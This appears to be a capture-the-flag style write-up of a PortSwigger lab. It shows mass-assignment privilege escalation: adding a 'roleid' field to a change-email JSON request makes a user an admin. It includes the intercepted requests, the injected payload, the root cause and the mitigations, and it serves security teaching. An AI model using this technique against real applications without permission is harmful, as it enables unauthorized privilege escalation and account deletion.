

# User Role Can Be Modified In User Profile

| Field | Value |
|---|---|
| **Difficulty** | Apprentice |
| **Category** | Access Control |
| **Lab URL** | `https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile` |

---

## Lab Objective

The admin panel is at `/admin` and only accessible to logged-in users with a `roleid` of 2. Access the admin panel and delete user `carlos`.

---

## Skills Learned

- How applications sometimes return role IDs in the response to profile updates
- Injecting extra JSON fields to modify hidden server-side data
- Why JSON APIs must validate the shape of the request, not just trust the client

---

## Recon

Logged in with the supplied credentials (`wiener:peter`) and navigated to my account page (`/my-account?id=wiener`).

Intercepted the email update request in Burp:

```text
POST /my-account/change-email HTTP/2
Host: 0a8f002004e6e75181d5d40000860012.web-security-academy.net
Cookie: session=5pi4Fk6aQWrLyQncPP4zYkNgYv0Ctdwh
Content-Type: text/plain; charset=UTF-8
Content-Length: 131

{"email": "utkarshsolanki776@gmail.com"}
```

Sent it and observed the **response**:

```text
HTTP/2 302 Found
Location: /my-account

{"username": "wiener", "email": "utkarshsolanki776@gmail.com", "apikey": "01jGhviuMxC8p92RA5SNJjBFIiSwKaej", "roleid": 1}
```

The application leaks the logged-in user's `roleid` in the response. My `roleid` is 1 (regular user).

---

## Finding the Vulnerability

The email update endpoint reads a JSON body and stores whatever fields it contains — including fields that weren't part of the original request. There's no allow-list of fields. If I add `"roleid": 2` to the JSON body, the server will update my role along with my email.

This is an insecure object reference / mass assignment style flaw: the server binds the whole request body to the user object without filtering unexpected fields.

---

## Exploitation Steps

1. Logged in as `wiener:peter`.
2. Captured the email-change request in Burp Repeater.
3. Added `"roleid": 2` to the JSON body.
4. Sent the request.
5. Observed the response now showing `"roleid": 2`.
6. Browsed to `/admin`.
7. Deleted `carlos`.

---

## Payload

Injected `roleid` into the change-email request body:

```json
{
    "email": "utkarshsolanki776@gmail.com",
    "roleid": 2
}
```



The response confirmed the role change:

```text
{"username": "wiener", "email": "utkarshsolanki776@gmail.com", "apikey": "01jGhviuMxC8p92RA5SNJjBFIiSwKaej", "roleid": 2}
```

---

## Why It Works

The `/my-account/change-email` endpoint takes a JSON body and merges the submitted fields directly into the user's stored profile. Because it doesn't validate which fields are allowed, sending `roleid` alongside `email` overwrites the server-side role.

Authorization checks then read the stored `roleid` to decide who can reach `/admin`. After the injection, my `roleid` is 2, so the check passes and the admin panel opens.

---

## Root Cause

The developer treated the profile update as "bind whatever JSON comes in to the user object." There was no allow-list of updatable fields, so a client-controlled value (`roleid`) modified server-side authorization data. Role should never be settable from a request body.

---

## Impact

A regular user can escalate to admin by adding one JSON key. With admin access they can delete any user, modify content, or reach any admin-only functionality. Combined with the `apikey` leak in the response, this endpoint exposes sensitive data too.

---

## Mitigation

- Define an explicit allow-list of fields a user may update (e.g., only `email`)
- Never accept authorization-related fields (`roleid`, `isAdmin`, `role`) from client input
- Store roles in a server-side session or database and derive authorization from there, never from request data
- Validate request body schemas server-side; reject unknown or unexpected keys
- Use DTOs (data transfer objects) that expose only the allowed fields instead of binding raw request bodies to domain models

---

## Key Takeaways

- When testing profile/account update endpoints, always check the response — it may leak server-side fields like `roleid`, `apikey`, or internal IDs
- If you see a JSON endpoint, try adding extra keys to the body and watch the response for a change
- Mass assignment / insecure field binding is a common flaw in APIs built with rapid-development frameworks
- A 302 redirect response still carries a JSON body worth reading

---

## Related Labs

- [03 - User Role Controlled By Request Parameter](../03%20-%20User%20Role%20Controlled%20By%20Request%20Parameter/README.md) — both derive role/privilege from client-controlled data

---

## References

- [PortSwigger: Access control](https://portswigger.net/web-security/access-control)
- [PortSwigger: Lab — User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)
- [OWASP: Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
